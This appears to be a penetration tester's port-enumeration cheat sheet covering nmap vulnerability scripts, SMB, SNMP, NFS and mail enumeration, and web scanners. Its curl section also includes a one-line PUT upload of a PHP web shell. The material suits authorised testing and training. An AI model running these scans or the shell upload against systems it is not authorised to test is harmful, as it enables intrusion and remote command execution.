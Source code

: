 # Linux  Common Port enumeration

## Various initial Port Scans

Syn-Stealth Scan							
```
nmap -sS $TARGETIP
```
Scan all ports (slow)	 				
```
nmap -p- $TARGETIP
```
Service version, run default scripts, OS thumbprinting. Usually run on individual ports for further info.	
```
nmap -sV -sC -O $TARGETIP -p $PORTNO
```
UDP port Scans (nmap slow, unicorn scan very quick)	
```
nmap $TARGETIP -sU
```
Quick aggressive scan on all ports using potentially noisy/unsafe scripts	nmap 
```
$TARGETIP -p- -A -T4 -sC
```

## Port 21 - FTP
Test for FTP Banner, Version and anonymous login. Also checks for basic FTP known vulns
```
nmap --script=ftp-anon,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $TARGETIP
```
## Port 22 - SSH
Usually unexploitable. Potential exploits for very old versions. Can often be exploited for username enumeration. Also sometimes just worth connecting to for custom SSH banners. Look for version exploits. Private Key Exploits or user enumeration exploits. 

## Port 25 - SMTP
Connect to mail server. Dont use dns direct connect, verbose output
```
nc -nvv $IP 25
HELO junk <cr><lf>
```

Once connected if able to. use to vrfy domain/potential users
```
telnet $IP 25  -->  VRFY $USERNAME
```

nmap scan to test for basic smtp exploits and attempt to enumerate users.
```
nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 $IP
```

## Port 69 - UDP  - TFTP 
Used for tftp-server

## Port 110 - Pop3
Usefull if you have mail/user credentials. Can be used to retrieve mail. Alternativly map to server with Evolution or other mail client.
```
telnet $IP 110
USER user@$IP/DOMAIN
PASS  $PASSWORD
or:
USER $USERNAME
PASS $PASSWORD
# List all emails
list
# Retrieve email number 5, for example
retr 5
```

## Port 111 - RPCbind
Can sometimes disclose information regarding the machine
```
rpcinfo -p $IP
```

## Port 135 - MSRPC
Check version number some versions are vulnerable

## Port 143 - imap

## Port 139/445 - SMB

Nmap aggressive tests and vulnerability test.
```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse $IP -p 445
```
enum4linux checks (unauthenticataed)
```
enum4linux -a $IP
```
rpc client and following commands authentication required
```
rpcclient -U "$USERNAME" $IP
srvinfo
enumdomusers
getdompwinfo
querydominfo
netshareenum
netshareenumall
smbclient -L $IP
```
Possible SMB shares to try	smbclient //$IP/tmp
```
smbclient \\\$IP\\ipc$ -U $USERNAME
smbclient //$IP/ipc$ -U $USERNAME
```
## Port 161/162 UDP - SNMP
aggressive snmp nmap test scan. 
```
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes $IP
```
snmp-check will carry out tests and spit info. Can customise the -c flag with any common community string or if known the used string for that domain/machine. Common ones are public, private, community.
```
snmp-check -t $IP -c public
```
## Port 554 - RTSP
Check version number some versions are vulnerable

## Port 1030/1032/1033/1038
Used by RPC to connect in a domain network

## Port 1521 - Oracle Database
Try and grab version header or remote connect. 

## Port 2049 - NFS
Show the NFS mounts
```
showmount -e $IP
#mount
mount $IP:/ /tmp/NFS or mount -t $IP:/ /tmp/NFS
```

## Port 2100 - Oracle XML DB
default passwords 	https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm

## Port 3306 - MySQL
Nmap aggressive script and vuln test
```
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse $IP -p 3306
```

## Port 3339 - Oracle Web ui

## Port 80 - WEB
Nikto vuln scan
```
nikto -h http://$IP
#with proxy
nikto -h $TARGETIP -useproxy http://$LOCALIP:8080
```
WPS Scan
```
WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://$IP
wpscan --url http://$IP --enumerate vp
wpscan --url http://$IP --enumerate vt
wpscan --url http://$IP --enumerate u
```
Joomscan
```
joomscan -u  http://$IP
joomscan -u  http://$IP --enumerate-components
```
Curl
```
# Get header
curl -i $IP
# Get all info
curl -i -L $IP
# check for title and links
curl $IP -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'
# look at page text only
curl $IP -s -L | html2text -width '99' | uniq
# Check if it is possible to upload
curl -v -X OPTIONS http://$IP/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://$IP/test/shell.php
```
Dirb
```
# dirb bruteforce hidden directories
dirb http://$IP
```
Gobuster
gobuser brute for directories (good list) also returns status code's. Customise -s flag with what codes you want to see e.g 403.
```
gobuster -w /usr/share/wordlists/dirbuster/$DIRECTORYLIST -h http://$IP -s '200,204,301,302,307,403,500' -e
```

## Port 443 - SSL 
Check for heartbleed vuln
```
sslscan $IP:443
```




